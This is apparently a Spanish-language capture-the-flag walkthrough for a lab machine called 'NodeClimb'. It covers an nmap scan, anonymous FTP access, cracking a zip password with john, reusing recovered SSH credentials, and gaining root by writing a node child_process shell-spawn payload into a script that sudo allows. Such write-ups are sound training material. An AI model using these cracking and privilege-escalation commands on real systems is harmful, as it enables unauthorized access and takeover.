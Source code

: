 # NodeClimb
## Reconocimiento Inicial con Nmap

```Bash
nmap -O -sC -sV 172.17.0.2
```
**Resultado** 

```Bash
PORT   STATE SERVICE VERSION 21/tcp open  ftp     vsftpd 3.0.3 | ftp-syst:   |   STAT:   | FTP server status: |      Connected to ::ffff:172.17.0.1 |      Logged in as ftp |      TYPE: ASCII |      No session bandwidth limit |      Session timeout in seconds is 300 |      Control connection is plain text |      Data connections will be plain text |      At session startup, client count was 4 |      vsFTPd 3.0.3 - secure, fast, stable |_End of status | ftp-anon: Anonymous FTP login allowed (FTP code 230) |_-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip 22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0) | ssh-hostkey:   |   256 cd:1f:3b:2d:c4:0b:99:03:e6:a3:5c:26:f5:4b:47:ae (ECDSA) |_  256 a0:d4:92:f6:9b:db:12:2b:77:b6:b1:58:e0:70:56:f0 (ED25519) MAC Address: 02:42:AC:11:00:02 (Unknown)
```


La salida de nmap revela dos puertos abiertos:

•Puerto 21 (FTP): Se ejecuta vsftpd 3.0.3. Lo más importante es que el escaneo indica ftp-anon: Anonymous FTP login allowed (FTP code 230), lo que significa que se permite el acceso anónimo al servidor FTP. Además, se lista un archivo secretitopicaron.zip en el directorio raíz del FTP anónimo. Esto sugiere que el ataque comenzará por aquí.

•Puerto 22 (SSH): Se ejecuta OpenSSH 9.2p1 Debian. Este servicio es un posible punto de entrada si se obtienen credenciales válidas.

## Acceso Anónimo FTP
```bash
ftp 172.17.0.2

anonymous
anonymous
```

```bash
tp> ls  
229 Entering Extended Passive Mode (|||59283|)  
150 Here comes the directory listing.  
-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip
```

```bash
get secretitopicaron.zip
exit
```
Desde nuestra máquina atacante, descomprimimos y vemos que contiene el documento

```bash
unzip secretitopicaron.zip    
Archive:  secretitopicaron.zip  
[secretitopicaron.zip] password.txt password:
```
Para descomprimir, se necesita una contraseña, por lo que vamos a romperlo con john
```bash
└─$ zip2john secretitopicaron.zip > zip_hash.txt  
ver 1.0 efh 5455 efh 7875 secretitopicaron.zip/password.txt PKZIP Encr: 2b chk, TS_chk, cmplen=52, decmplen=40, crc=59D5D024 ts=4C03 cs=4c03 type=0


└─$ john zip_hash.txt  
Using default input encoding: UTF-8  
Loaded 1 password hash (PKZIP [32/64])  
Will run 4 OpenMP threads  
Proceeding with single, rules:Single  
Press 'q' or Ctrl-C to abort, almost any other key for status  
password1        (secretitopicaron.zip/password.txt)        
1g 0:00:00:00 DONE 1/3 (2025-08-02 21:11) 2.222g/s 1877p/s 1877c/s 1877C/s zpassword1..psecretitopicaron1  
Use the "--show" option to display all of the cracked passwords reliably  
Session completed.
```

La contraseña es password1

```bash
cat password.txt    
mario:laKontraseñAmasmalotaHdelbarrioH
```

## Acceso FTP

```bash
ftp 172.17.0.2
mario
laKontraseñAmasmalotaHdelbarrioH
```

Vemos un scrip y lo descargamos
```bash
ls
# -rw-r--r--    1 1000     1000            0 Jul 05  2024 script.js
get script.js
```

Nos salimos y vemos que no contiene nada

## Acceso ssh 
```bash
ssh mario@172.17.0.2
# laKontraseñAmasmalotaHdelbarrioH
```

```bash
whoami
# mario
```
Empezamos siendo un usuario sin privilegios.

## Escalada de privilegios
Aparece el mismo script.js sin contenido

```bash
sudo -l
# (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```
Podemos ejecutar el scipt con node

Buscamos en GTFObins "node" en el apartado de Sudo:
```bash
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

Por lo que vamos a modificar el json para que nos de una consola de comandos con los permisos de root

```bash
nano script.js
# require('child_process').spawn('/bin/sh', {stdio: [0,1,2]});
sudo -u root /usr/bin/node /home/mario/script.js
whoami
# root
```
